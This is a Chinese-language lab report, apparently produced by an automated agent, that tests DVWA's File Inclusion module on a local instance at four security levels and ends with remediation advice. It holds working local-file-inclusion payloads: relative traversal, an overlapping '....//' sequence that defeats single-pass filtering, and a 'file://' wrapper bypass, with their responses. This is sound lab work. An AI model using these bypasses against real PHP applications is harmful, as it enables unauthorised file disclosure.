

# DVWA File Inclusion 自动化解题报告

## 摘要

- 目标：`http://127.0.0.1/dvwa/`
- 模块：`File Inclusion`
- 模块路径：`vulnerabilities/fi/`
- 登录账号：`admin / password`
- 源码路径：`D:\phpStudy\PHPTutorial\WWW\DVWA`
- 难度进度：`low -> medium -> high -> impossible`
- 执行时间：`2026-06-08T14:36:15+08:00` 至 `2026-06-08T14:36:16+08:00`
- harness 耗时：`1.169s`
- 总请求数：`30`
- 结论：`low`、`medium`、`high` 均可用无害本地文件证明文件包含；`impossible` 对遍历、隐藏文件和 `file://` 包装器均返回 `ERROR: File not found!`，判定为防御级别。

本次没有直接套用公开题解或 helper。流程从页面、参数和源码出发，先建立请求模型，再生成只读测试用例。所有 proof 都限定在 DVWA 本机实验目录内，使用 `robots.txt`、DVWA bundled 文件和隐藏示例文件，不访问外部目标、不写文件、不执行 shell、不做持久化。

## 范围与环境

| 项目 | 内容 |
| --- | --- |
| 授权范围 | 本机 DVWA |
| URL | `http://127.0.0.1/dvwa/` |
| 模块 | `File Inclusion` |
| 源码目录 | `D:\phpStudy\PHPTutorial\WWW\DVWA` |
| 输出目录 | `dvwa-results/file-inclusion-progression-20260608-143425` |
| 语言 | `zh-CN` |
| Python | `py -3.11` |
| Python 依赖 | `requests 2.32.3`、`beautifulsoup4 4.13.4`、Playwright 可用 |
| 代理 | 未使用；请求模型简单，`requests` 足够复现 |
| Burp MCP | 未作为可调用工具暴露；非阻塞 |

## 难度推进表

| 难度 | 状态 | 漏洞或防护成因 | 关键 payload | 请求数 | 耗时 | 证据 | 停止原因 |
| --- | --- | --- | --- | ---: | ---: | --- | --- |
| `low` | `solved_vulnerable` | `page` 直接赋给 `$file` 并 `include($file)` | `page=../../robots.txt` | 7 | `0.311s` | 响应含 `User-agent: *` 和 `Disallow: /` | 已证明任意相对路径包含 |
| `medium` | `solved_vulnerable` | 单次 `str_replace()` 删除 `../`，可用重叠序列绕过 | `page=....//....//robots.txt` | 6 | `0.233s` | 简单 `../../robots.txt` 失败，重叠序列成功 | 已证明过滤绕过 |
| `high` | `solved_vulnerable` | `fnmatch("file*", $file)` 是前缀匹配，不是真正 allowlist | `page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` | 7 | `0.233s` | `../../robots.txt` 被拒绝，但 `file://.../robots.txt` 成功 | 已证明包装器绕过 |
| `impossible` | `defended_not_vulnerable` | 严格 allowlist：`include.php,file1.php,file2.php,file3.php` | `page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` | 8 | `0.292s` | 遍历、`file4.php`、`file://` 均返回 `ERROR: File not found!` | 防御有效，停止 |

## 时间线

| 时间 | 难度 | 工具 | 操作 | 结果 |
| --- | --- | --- | --- | --- |
| `2026-06-08 14:34:25 +08:00` | 全局 | PowerShell | 创建输出目录，确认 Python/Playwright | 目录 `file-inclusion-progression-20260608-143425` |
| `14:34:47-14:34:49` | 全部 | Playwright helper | 捕获登录、安全等级、模块页截图 | 成功生成基础截图 |
| `14:36:15` | setup | Python/requests | GET `login.php`，POST 登录 | 登录成功 |
| `14:36:15` | low | Python/requests | 设置 `security=low`，检查模块链接和源码 | 发现 `page` 未过滤 |
| `14:36:15` | low | Python/requests | 测试 `include.php`、`file1.php`、缺失文件、`../../robots.txt` | `../../robots.txt` 成功 |
| `14:36:15` | medium | Python/requests | 设置 `security=medium`，比较简单遍历和重叠遍历 | `....//....//robots.txt` 成功 |
| `14:36:16` | high | Python/requests | 设置 `security=high`，测试遍历、隐藏文件、`file://` | `file://.../robots.txt` 成功 |
| `14:36:16` | impossible | Python/requests | 设置 `security=impossible`，测试 allowlist 外输入 | 均返回 `ERROR: File not found!` |
| `14:36:52-14:36:57` | 全部 | Playwright proof script | 捕获 proof/defense 截图 | 成功生成 `screenshots/proof/*.png` |

完整操作日志：`operation-log.jsonl`。

## 请求模型

登录：

```text
GET /dvwa/login.php
POST /dvwa/login.php
username=admin&password=password&Login=Login&user_token=<login token>
```

设置安全等级：

```text
GET /dvwa/security.php
POST /dvwa/security.php
security=<low|medium|high|impossible>&seclev_submit=Submit&user_token=<security token>
```

File Inclusion 模块：

```text
GET /dvwa/vulnerabilities/fi/?page=<value>
```

关键参数：

- `page`：被入口文件传入 `$file`，再由 `index.php` 第 36 行 `include($file)`。
- Cookie：`security=<difficulty>` 控制源码分支。
- 本模块没有表单 token；页面访问需要已认证 DVWA session。

稳定响应标记：

```text
User-agent: *
Disallow: /
File 1
File 4 (Hidden)
Good job!
ERROR: File not found!
include()
Warning
```

## 源码分析

入口文件 `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\index.php`：

- 第 17-30 行：根据 `dvwaSecurityLevelGet()` 选择 `source/low.php`、`medium.php`、`high.php` 或 `impossible.php`。
- 第 32 行：加载当前难度源码。
- 第 35-36 行：若 `$file` 已设置，则直接 `include($file)`。
- 第 38 行：未设置 `$file` 时重定向到 `?page=include.php`。

`low.php`：

- 第 4 行：`$file = $_GET['page'];`
- 未做路径校验、过滤或 allowlist。
- 结论：`page=../../robots.txt` 可包含 DVWA 根目录 `robots.txt`。

`medium.php`：

- 第 4 行：读取 `$_GET['page']`。
- 第 7 行：删除 `http://`、`https://`。
- 第 8 行：删除 `../` 和 `..\`。
- 问题：单次字符串替换可被重叠序列绕过，例如 `....//....//robots.txt` 在替换后形成 `../../robots.txt`。

`high.php`：

- 第 4 行：读取 `$_GET['page']`。
- 第 7 行：`if( !fnmatch( "file*", $file ) && $file != "include.php" )`。
- 第 9-10 行：不匹配时输出 `ERROR: File not found!` 并退出。
- 问题：`file*` 是宽松前缀匹配，`file4.php` 和 `file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` 都满足 `file*`。

`impossible.php`：

- 第 4 行：读取 `$_GET['page']`。
- 第 7-12 行：固定允许 `include.php`、`file1.php`、`file2.php`、`file3.php`。
- 第 14-17 行：非 allowlist 输入输出 `ERROR: File not found!` 并退出。
- 结论：遍历、隐藏文件和 `file://` 都被拦截。

## 假设与测试设计

测试原则：

- 只读、无害、限定 DVWA 本机实验目录。
- 优先用 DVWA 自带文件和 `D:\phpStudy\PHPTutorial\WWW\DVWA\robots.txt`。
- 不读取系统敏感文件，不用外部 URL，不用远程 wrapper，不执行命令。

生成的测试计划：

```text
low:
page=include.php
page=file1.php
page=no_such_file_20260608.php
page=../../robots.txt
page=file4.php

medium:
page=include.php
page=../../robots.txt
page=....//....//robots.txt
page=....\\....\\robots.txt
page=file4.php

high:
page=include.php
page=../../robots.txt
page=file4.php
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt

impossible:
page=include.php
page=file1.php
page=../../robots.txt
page=file4.php
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt
```

工具选择：

- `Python/requests`：可重复执行认证、设置难度、GET 参数变体并保存响应证据。
- `Playwright`：自动捕获登录态、模块页和 proof/defense 页面截图。
- 未使用 ffuf：测试集来自源码假设，没必要进行广泛 fuzz。
- 未使用 sqlmap/IDA：模块类型不匹配。
- 未使用 Burp/ZAP：当前无需人工 Repeater 对比；请求 JSON 已保存。

## 执行证据

### Low

基线：

```text
GET /dvwa/vulnerabilities/fi/?page=include.php
markers=["allow_url_include_note"]
```

合法 bundled 文件：

```text
GET /dvwa/vulnerabilities/fi/?page=file1.php
markers=["file1"]
context: File 1 Hello admin Your IP address is: 127.0.0.1
```

缺失文件基线：

```text
GET /dvwa/vulnerabilities/fi/?page=no_such_file_20260608.php
markers=["include_warning","warning"]
context: include(no_such_file_20260608.php): failed to open stream
```

包含证明：

```text
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt
markers=["robots_txt","robots_disallow"]
context: User-agent: * Disallow: /
```

截图：


### Medium

简单遍历被过滤后的行为：

```text
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt
markers=["include_warning","warning"]
context: include(robots.txt): failed to open stream
```

解释：`../../robots.txt` 被删除 `../` 后变为 `robots.txt`，在 `vulnerabilities/fi/` 当前目录下找不到。

绕过证明：

```text
GET /dvwa/vulnerabilities/fi/?page=....%2F%2F....%2F%2Frobots.txt
page=....//....//robots.txt
markers=["robots_txt","robots_disallow"]
context: User-agent: * Disallow: /
```

截图：


### High

简单遍历阻断：

```text
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt
markers=["not_found"]
context: ERROR: File not found!
```

隐藏文件证明：

```text
GET /dvwa/vulnerabilities/fi/?page=file4.php
markers=["file4_hidden","file4_good_job"]
context: File 4 (Hidden) Good job!
```

`file://` 包装器证明：

```text
GET /dvwa/vulnerabilities/fi/?page=file%3A%2F%2FD%3A%2FphpStudy%2FPHPTutorial%2FWWW%2FDVWA%2Frobots.txt
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt
markers=["robots_txt","robots_disallow"]
context: User-agent: * Disallow: /
```

截图：



### Impossible

合法 allowlist 文件：

```text
GET /dvwa/vulnerabilities/fi/?page=file1.php
markers=["file1"]
context: File 1 Hello admin Your IP address is: 127.0.0.1
```

防御探针：

```text
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt
markers=["not_found"]
context: ERROR: File not found!

GET /dvwa/vulnerabilities/fi/?page=file4.php
markers=["not_found"]
context: ERROR: File not found!

GET /dvwa/vulnerabilities/fi/?page=file%3A%2F%2FD%3A%2FphpStudy%2FPHPTutorial%2FWWW%2FDVWA%2Frobots.txt
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt
markers=["not_found"]
context: ERROR: File not found!
```

截图：


## 截图记录

自动截图已成功生成，所有截图均已捕获。

基础截图：

- `screenshots/low/authenticated-home.png`
- `screenshots/low/security-low.png`
- `screenshots/low/module-low.png`
- `screenshots/medium/authenticated-home.png`
- `screenshots/medium/security-medium.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/authenticated-home.png`
- `screenshots/high/security-high.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/authenticated-home.png`
- `screenshots/impossible/security-impossible.png`
- `screenshots/impossible/module-impossible.png`

Proof/defense 截图：

- `screenshots/proof/low-proof.png`
- `screenshots/proof/medium-proof.png`
- `screenshots/proof/high-proof.png`
- `screenshots/proof/impossible-proof.png`

截图命令示例：

```powershell
py -3.11 'C:\Users\31435\.codex\skills\dvwa-automated-testing\scripts\dvwa_screenshot.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --difficulty low --module-path 'vulnerabilities/fi/' --output-dir 'dvwa-results\file-inclusion-progression-20260608-143425\screenshots\low'
```

Proof 截图命令：

```powershell
$env:PYTHONIOENCODING='utf-8'; py -3.11 'dvwa-results\file-inclusion-progression-20260608-143425\generated-harnesses\file_inclusion_proof_screenshots.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --output-dir 'dvwa-results\file-inclusion-progression-20260608-143425\screenshots\proof'
```

## 时间统计

| 阶段 | 请求数 | 耗时 | 说明 |
| --- | ---: | ---: | --- |
| 登录初始化 | 2 | 约 `0.08s` | GET 登录页 + POST 登录 |
| `low` | 7 | `0.311s` | 基线、合法文件、缺失文件、遍历 proof |
| `medium` | 6 | `0.233s` | 简单遍历阻断、重叠遍历 proof |
| `high` | 7 | `0.233s` | 遍历阻断、隐藏文件、`file://` proof |
| `impossible` | 8 | `0.292s` | allowlist 合法文件和三类防御探针 |
| 总计 | 30 | `1.169s` | 不含截图和报告撰写 |

截图时间：

- 基础截图：`2026-06-08T14:34:47+08:00` 至 `2026-06-08T14:34:49+08:00`
- proof 截图：`2026-06-08T14:36:52+08:00` 至 `2026-06-08T14:36:57+08:00`

## 结果

`low`：可利用。任意 `page` 值直接进入 `include()`，`../../robots.txt` 成功包含 DVWA 根目录文件。

`medium`：可利用。简单 `../../robots.txt` 被改写成 `robots.txt` 而失败，但 `....//....//robots.txt` 绕过单次 `str_replace()`，最终包含 `robots.txt`。

`high`：可利用。`../../robots.txt` 被 `fnmatch("file*", ...)` 阻断，但 `file4.php` 和 `file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` 都满足 `file*` 前缀规则。高难度不是靠名称判断为可利用，而是由响应中的 `User-agent: * Disallow: /` 和源码第 7 行前缀检查共同证明。

`impossible`：未发现可利用文件包含。它只允许 `include.php`、`file1.php`、`file2.php`、`file3.php`，对遍历、隐藏文件和 `file://` 包装器都返回 `ERROR: File not found!`。

## 修复建议

- 使用严格 allowlist，且比较规范化后的文件名。
- 不要把用户输入直接传给 `include()`、`require()`。
- 禁止 stream wrapper 参与页面选择，例如拒绝包含 `://` 的值。
- 使用固定映射表：用户传入逻辑 ID，服务端映射到固定模板文件。
- 对路径做 `realpath()` 后确认最终路径位于预期目录内。
- 关闭不必要的 `allow_url_include`，并降低 PHP 错误信息暴露程度。
- 生产环境关闭详细 warning，避免泄露绝对路径。

## 复现步骤

1. 登录 `http://127.0.0.1/dvwa/`，账号 `admin / password`。
2. 设置安全等级为 `low`，访问 `vulnerabilities/fi/?page=../../robots.txt`，预期看到 `User-agent: *` 和 `Disallow: /`。
3. 设置安全等级为 `medium`，先访问 `?page=../../robots.txt`，预期出现 `include(robots.txt)` warning；再访问 `?page=....//....//robots.txt`，预期看到 `User-agent: *`。
4. 设置安全等级为 `high`，先访问 `?page=../../robots.txt`，预期 `ERROR: File not found!`；再访问 `?page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt`，预期看到 `User-agent: *`。
5. 设置安全等级为 `impossible`，访问 `?page=../../robots.txt`、`?page=file4.php`、`?page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt`，预期均为 `ERROR: File not found!`。

## 产物

- 主报告：`dvwa-results/file-inclusion-progression-20260608-143425/report.md`
- JSON 结果：`dvwa-results/file-inclusion-progression-20260608-143425/report.json`
- 操作日志：`dvwa-results/file-inclusion-progression-20260608-143425/operation-log.jsonl`
- 请求证据：`dvwa-results/file-inclusion-progression-20260608-143425/requests/`
- 主 harness：`dvwa-results/file-inclusion-progression-20260608-143425/generated-harnesses/file_inclusion_progression_harness.py`
- proof 截图脚本：`dvwa-results/file-inclusion-progression-20260608-143425/generated-harnesses/file_inclusion_proof_screenshots.py`
- 截图目录：`dvwa-results/file-inclusion-progression-20260608-143425/screenshots/`

主 harness 命令：

```powershell
$env:PYTHONIOENCODING='utf-8'; py -3.11 'dvwa-results\file-inclusion-progression-20260608-143425\generated-harnesses\file_inclusion_progression_harness.py' --out-dir 'dvwa-results\file-inclusion-progression-20260608-143425'
```

## 限制

- 未使用 Burp/ZAP，报告以 `requests` JSON、源码和 Playwright 截图作为证据。
- 测试仅覆盖安全的 DVWA 本地文件，不读取系统敏感文件。
- 未测试远程文件包含，因为用户要求不使用外部回调、远程 shell 或非 DVWA 目标。
- `file://` proof 依赖当前 PHP/Windows 环境对本地文件 wrapper 的支持；不同 PHP 配置可能表现不同。
- 报告中的高难度结论来自本机实测，不从难度名称推断。

## 实验总报告可提取信息

### 实验结论

`low`、`medium`、`high` 均存在文件包含风险。`low` 可直接用 `../../robots.txt` 包含 DVWA 根目录文件；`medium` 可用 `....//....//robots.txt` 绕过单次替换；`high` 虽阻断普通遍历，但 `file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` 满足 `file*` 前缀检查并成功包含。`impossible` 使用固定 allowlist，拒绝遍历、隐藏文件和 `file://`，判定为防御级别。

### 各难度漏洞成因

- `low`：`D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\source\low.php` 第 4 行直接 `$file = $_GET['page'];`，入口 `index.php` 第 36 行 `include($file)`。
- `medium`：`medium.php` 第 7-8 行用 `str_replace()` 删除 `http://`、`https://`、`../`、`..\`，但重叠序列 `....//` 在替换后形成 `../`。
- `high`：`high.php` 第 7 行只要求 `fnmatch("file*", $file)` 或 `include.php`，`file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` 以 `file` 开头，因此通过。
- `impossible`：`impossible.php` 第 7-12 行固定允许 `include.php`、`file1.php`、`file2.php`、`file3.php`，第 14-17 行拒绝其他值。

### 解题步骤

1. 登录 DVWA：`admin / password`。
2. 逐级设置 `security=low`、`medium`、`high`、`impossible`。
3. 访问 `vulnerabilities/fi/`，识别参数 `page`。
4. 读取 `index.php` 和 `source/<difficulty>.php`，确认 `include($file)` 与过滤逻辑。
5. 用 `page=include.php` 和 `page=file1.php` 建立正常基线。
6. 用缺失文件或被拦截 payload 建立失败基线。
7. 用安全本地文件 `robots.txt`、隐藏 `file4.php`、`file://.../robots.txt` 做只读证明。
8. 在 `impossible` 中确认 allowlist 对三类探针全部返回 `ERROR: File not found!`。

### 使用工具与操作

```powershell
Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\index.php'
Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\source\low.php'
Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\source\medium.php'
Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\source\high.php'
Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\source\impossible.php'
$env:PYTHONIOENCODING='utf-8'; py -3.11 'dvwa-results\file-inclusion-progression-20260608-143425\generated-harnesses\file_inclusion_progression_harness.py' --out-dir 'dvwa-results\file-inclusion-progression-20260608-143425'
$env:PYTHONIOENCODING='utf-8'; py -3.11 'dvwa-results\file-inclusion-progression-20260608-143425\generated-harnesses\file_inclusion_proof_screenshots.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --output-dir 'dvwa-results\file-inclusion-progression-20260608-143425\screenshots\proof'
```

### 核心 payload/测试输入

```text
low proof:
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt

medium blocked probe:
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt

medium proof:
GET /dvwa/vulnerabilities/fi/?page=....%2F%2F....%2F%2Frobots.txt
page=....//....//robots.txt

high blocked probe:
GET /dvwa/vulnerabilities/fi/?page=..%2F..%2Frobots.txt
page=../../robots.txt

high secondary proof:
GET /dvwa/vulnerabilities/fi/?page=file4.php
page=file4.php

high proof:
GET /dvwa/vulnerabilities/fi/?page=file%3A%2F%2FD%3A%2FphpStudy%2FPHPTutorial%2FWWW%2FDVWA%2Frobots.txt
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt

impossible defense:
page=../../robots.txt
page=file4.php
page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt
```

### 关键截图

- `screenshots/proof/low-proof.png`
- `screenshots/proof/medium-proof.png`
- `screenshots/proof/high-proof.png`
- `screenshots/proof/impossible-proof.png`
- `screenshots/low/module-low.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/module-impossible.png`

### 复现步骤总结

1. `low`：访问 `?page=../../robots.txt`，观察 `User-agent: * Disallow: /`。
2. `medium`：访问 `?page=../../robots.txt`，观察 `include(robots.txt)` warning；访问 `?page=....//....//robots.txt`，观察 `User-agent: * Disallow: /`。
3. `high`：访问 `?page=../../robots.txt`，观察 `ERROR: File not found!`；访问 `?page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt`，观察 `User-agent: * Disallow: /`。
4. `impossible`：访问 `?page=../../robots.txt`、`?page=file4.php`、`?page=file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt`，均应为 `ERROR: File not found!`。

### impossible/无解原因

`impossible` 不是因为难度名被判定为无解，而是因为源码第 7-12 行只有 `include.php`、`file1.php`、`file2.php`、`file3.php` 四个允许值；实测 `../../robots.txt`、`file4.php`、`file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt` 都返回 `ERROR: File not found!`，没有出现 `User-agent: *`、`File 4 (Hidden)` 或其他包含成功标记。

### 辅助脚本

```text
dvwa-results/file-inclusion-progression-20260608-143425/generated-harnesses/file_inclusion_progression_harness.py
dvwa-results/file-inclusion-progression-20260608-143425/generated-harnesses/file_inclusion_proof_screenshots.py
```

### 起止时间和耗时

- 初始记录时间：`2026-06-08 14:34:25 +08:00`
- harness 开始：`2026-06-08T14:36:15+08:00`
- harness 结束：`2026-06-08T14:36:16+08:00`
- harness 耗时：`1.169s`
- proof 截图结束：`2026-06-08T14:36:57+08:00`

### 人工验证关注点

- 确认页面底部 `Security Level` 与测试难度一致。
- `high` 的关键 payload 是 `file://D:/phpStudy/PHPTutorial/WWW/DVWA/robots.txt`，不是普通 `../../robots.txt`。
- `medium` 的关键绕过是 `....//....//robots.txt`，普通 `../../robots.txt` 会被改写为 `robots.txt` 并失败。
- 成功标记以 `User-agent: *` 和 `Disallow: /` 为准，不以 HTTP `200` 单独判断。
- 不要把 payload 指向系统敏感文件或外部 URL；本实验仅使用 DVWA 本地只读文件。
